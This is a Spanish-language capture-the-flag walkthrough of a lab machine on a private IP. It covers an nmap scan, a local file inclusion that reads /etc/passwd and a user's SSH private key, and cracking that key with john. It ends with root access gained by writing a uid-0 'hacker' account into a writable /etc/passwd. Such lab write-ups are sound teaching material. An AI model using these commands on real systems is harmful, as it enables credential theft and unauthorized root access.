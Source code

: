 ## Reconocimiento
Procedimiento rutinario con nmap.
``` bash
nmap -p- -sS -sCV --min-rate 5000 -n -Pn 192.168.0.108 > scan
```

![[Screenshot from 2023-12-23 21-38-52.png]]
- SSH en el puerto 22. En su versión 7.9 que no tiene alguna vulnerabilidad grave.
- Un pagina montada con apache en el puerto 80.
- Se realizaron pruebas de fuzzing con `gobuster` pero no se encontro nada relevante

Accedemos a la pagina en cuestión
![[Screenshot from 2023-12-23 21-41-28.png]]
Si accedemos al `modo inspeccionar` y filtramos por `php` o `?`. Podemos ver que tenemos una url interesante.
![[Screenshot from 2023-12-23 21-45-59.png]]

## Local File Inclusion (LFI)
Si cambiamos `Doctors.html` por `/etc/passwd` podemos ver que nos lista el fichero. 
![[Screenshot from 2023-12-23 21-50-04.png]]
- Tenemos tres usuarios al parecer
	- root
	- admin
	- www-data

Buscamos el `id_rsa` del usuario `admin`
![[Screenshot from 2023-12-23 21-51-56.png]]
Usamos [ssh2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py)para convertir el `id_rsa` en un hash que podemos intentar crackear con [john](https://github.com/openwall/john).
``` bash
./ssh2john.ph id_rsa > id_rsa.txt

# ejecutamos john
john id_rsa.txt --wordlist=/usr/share/dict/rockyou.txt
```
![[Screenshot from 2023-12-23 23-57-33.png]]
Nos conectamos por ssh con el usuario `admin`, haciendo uso del `id_rsa` y la contraseña `unicorn`.
``` bash
ssh -i id_rsa admin@192.168.0.108
```
![[Screenshot from 2023-12-24 00-01-57.png]]

## Privsec
Algunas consideraciones al tratar de buscar alguna vulnerabilidad...
- No tenemos _sudo_ instalado, por ende no podemos usar `sudo -l`
- Si bien se ejecuta un versión 4.19 del kernel que tiene algunas vulnerabilidades. No reunimos con los requisitos necesarios para explotarlos.
- A nivel de SUID, ejecutando `find / -perm -4000 2>/dev/null` no encontramos algun ejecutable que nos permita realizar privesc. 

El paso necesario para poder escalar privilegios es la de ver en que archivos tenemos permisos de escritura, en este caso estamos buscando en todos los directorios excepto `var, proc, sys o home` directorios.

``` bash
$ find / -writable -type f 2>/dev/null | grep -viE "var|proc|sys|home"
/etc/passwd
```

Como podemos ver en este [artículo](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-etc-passwd) de HackTricks, podemos abusar del permiso de escritura sobre el archivo que esta en `/etc/passwd`.
``` bash
openssl passwd -1 -salt hacker hacker

# Otras opciones disponibles
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

``` bash 
# Despues agregamos el usuario hacker junto con la contraseñá generada en /etc/passwd
...
hacker:<GENERATED_PASSWORD_HERE>:0:0:Hacker:/root:/bin/bash
...
```
Ingresamos como root a traves del usuario `hacker` con su contraseña `hacker`
``` bash
su hacker
```
![[Screenshot from 2023-12-24 01-43-10.png]]
Eso es todo.